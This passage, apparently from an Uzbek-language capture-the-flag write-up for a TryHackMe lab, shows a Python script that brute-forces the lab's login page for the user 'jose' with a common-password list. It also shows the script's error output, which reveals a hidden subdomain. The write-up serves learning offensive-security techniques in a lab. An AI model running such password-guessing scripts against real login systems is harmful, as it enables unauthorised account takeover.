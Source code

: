 



Endi parolni brute-force qilamiz.

Script:

```
import requests

url = "http://lookup.thm/login.php"

# username listni manzili
file_path = "/usr/share/payloads/seclists/Passwords/Common-Credentials/2020-200_most_used_passwords.txt"

username = "jose"

try:
    with open(file_path, "r") as file:
        for line in file:
            password = line.strip()
            
            # Post so'rovni tayyorlash
            data = {
                "username": username,
                "password": password  # shunchaki parol
            }

            # Post so'rov yuborish
            response = requests.post(url, data=data)
            
            # Javobni tekshirish
            if not (("Wrong password" in response.text) or ("wrong username" in response.text)):
                print(f"{username}:{password} -- Bingo!!!")
                break
            else:
                print(f"{username}:{password} -- Trying...")
except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")
```

Jarayonda:

```
Error: An HTTP request error occurred: HTTPConnectionPool(host='files.lookup.thm', port=80): Max retries exceeded with url: / (Caused by NameResolutionError("<urllib3.connection.HTTPConnection object at 0x7f104bf0ce20>: Failed to resolve 'files.lookup.thm' ([Errno -2] Name or service not known)"))
```

ro'yxatga olinmagan subdomen haqida xabarni ko'rdim va bu subdomenni ro'yxatdan o'tkizib qaytsa sinab ko'rdim.

